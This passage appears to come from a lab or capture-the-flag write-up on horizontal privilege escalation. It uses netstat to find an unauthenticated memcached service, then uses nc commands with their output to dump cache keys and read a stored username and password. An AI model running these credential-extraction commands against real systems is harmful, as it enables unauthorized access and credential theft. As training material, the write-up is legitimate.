 ## Exploit

### Horizontal Privilege Escalation

Using `netstat` to list the **LISTENING** ports on the server:

```
www-data@osboxes:/home$ netstat -tupl
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 *:ssh                   *:*                     LISTEN      -
tcp        0      0 localhost:ipp           *:*                     LISTEN      -
tcp        0      0 localhost:3010          *:*                     LISTEN      -
tcp        0      0 localhost:mysql         *:*                     LISTEN      -
tcp        0      0 localhost:11211         *:*                     LISTEN      -
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -
tcp6       0      0 ip6-localhost:ipp       [::]:*                  LISTEN      -
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -
```

After googling the port `11211`, I explore that it is carrying out the **memcache** service.

<p class="message">
💡 <strong>Memcached</strong>

(pronunciation: mem-cashed, mem-cash-dee) is a general-purpose distributed memory caching system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source (such as a database or API) must be read. (From wikipedia) Although Memcached supports SASL, most instances are <strong>exposed without authentication</strong>.

</p>

Read more at [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache).

To exploit this, let’s dump the **memory cache keys**:

```
www-data@osboxes:/$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM id [4 b; 1695646068 s]
ITEM email [14 b; 1695646068 s]
ITEM salary [8 b; 1695646068 s]
ITEM password [15 b; 1695646068 s]
ITEM username [4 b; 1695646068 s]
END
```

ITEM _password_ and _username_ are listed in the result, simply get them using this command:

```
www-data@osboxes:/$ echo "get username" | nc -vn -w 1 127.0.0.1 11211
echo "get username" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE username 0 4
Orka
END
www-data@osboxes:/$ echo " get password" | nc -vn -w 1 127.0.0.1 11211
echo " get password" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE password 0 15
[REDACTED]
END
```
